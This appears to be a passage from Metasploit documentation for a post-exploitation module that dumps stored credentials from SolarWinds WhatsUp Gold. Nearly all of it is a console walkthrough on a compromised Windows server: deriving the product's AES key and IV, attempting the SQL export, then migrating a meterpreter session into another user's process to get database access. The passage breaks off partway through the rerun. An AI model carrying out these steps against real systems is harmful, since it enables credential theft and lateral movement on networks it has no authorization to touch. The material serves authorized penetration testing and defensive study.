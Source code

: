```
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > 
```

Windows Server 2019 with MSSQL SSPI authentication configured for SQL database -
migrate the session PID to an identity with permission to log on to the SQL server
before executing the `dump` action:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/whatsupgold_credential_dump
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > dump

[*] Hostname WINNEBAGO IPv4 192.168.101.125
[*] WhatsUp Gold Build 22.1.39
[*] Init WhatsUp Gold crypto ...
[+] WhatsUp Gold Serial Number: 52CXF233MXGRDVB
[+] WhatsUp Gold Dynamic Encryption Salt
[+]     HEX: E9143AD84940A233
[+] WhatsUp Gold Composed AES256
[+]     KEY: 5B83224E3BFB363C841C6E27B6DF6B824ECD67BA06B4ED1918C0F738A60A8A75
[+]      IV: 5205DF3A92F346215308DD91DEAF69AE
[*] Init WhatsUp Gold SQL ...
[+] SolarWinds WhatsUp Gold SQL Database Connection Configuration:
[+]     Instance Name: WINNEBAGO\WHATSUP
[+]     Database Name: WhatsUp
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of WhatsUp Gold SQL database to CSV file
[*] Export WhatsUp Gold DB ...
[-] Post aborted due to failure: unknown: Sqlcmd: Error: Microsoft ODBC Driver 13 for SQL Server : Login failed for user 'CESIUM137\WINNEBAGO$'..
Sqlcmd: Error: Microsoft ODBC Driver 13 for SQL Server : Cannot open database "WhatsUp" requested by the login. The login failed..
[*] Post module execution completed
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name                          Arch  Session  User                             Path
 ---   ----  ----                          ----  -------  ----                             ----
 0     0     [System Process]
 4     0     System                        x64   0
 [...]
 7908  1216  cmd.exe                       x64   1        CESIUM137\teenysupguy            C:\Windows\System32\cmd.exe
 [...]
meterpreter > migrate 7908
[*] Migrating from 2536 to 7908...
[*] Migration completed successfully.
meterpreter > bg
[*] Backgrounding session 1...
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > dump

[*] Hostname WINNEBAGO IPv4 192.168.101.125
[*] WhatsUp Gold Build 22.1.39
[*] Init WhatsUp Gold crypto ...
[+] WhatsUp Gold Serial Number: 52CXF233MXGRDVB
[+] WhatsUp Gold Dynamic Encryption Salt
```